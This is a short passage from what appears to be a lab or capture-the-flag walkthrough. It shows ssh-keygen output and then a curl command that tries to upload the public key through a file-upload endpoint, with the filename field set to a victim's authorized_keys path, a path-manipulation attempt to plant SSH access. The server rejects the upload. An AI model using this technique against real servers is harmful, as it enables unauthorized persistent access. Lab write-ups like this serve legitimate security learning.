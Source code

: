 Exploitation

  

Let's create an SSH key with ssh-keygen:

  

kali@kali:~$ ssh-keygen 

Generating public/private rsa key pair.

Enter file in which to save the key (/home/kali/.ssh/id_rsa): /home/kali/id_alfredo

Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in /home/kali/id_alfredo

Your public key has been saved in /home/kali/id_alfredo.pub

The key fingerprint is:

SHA256:2jZJco7aOWSCpO78cZ/VyO41fKnMUMbnBlUEc46KxLU kali@kali

The key's randomart image is:

+---[RSA 3072]----+

|           . oo+ |

|        . . . *  |

|         o E o . |

|  .     . o o    |

| o .  . S. * .   |

|. . . oO..* + .  |

|.  . =o *= = =   |

|..  oooo+.= =    |

|.o... o+.o +     |

+----[SHA256]-----+

  

Now we attempt to upload the file to the server:

  

kali@kali:~$ curl -F filename="/home/alfredo/.ssh/authorized_keys" -F file=@id_alfredo.pub http://192.168.56.101:33414/file-upload

{"message":"Allowed file types are txt, pdf, png, jpg, jpeg, gif"}
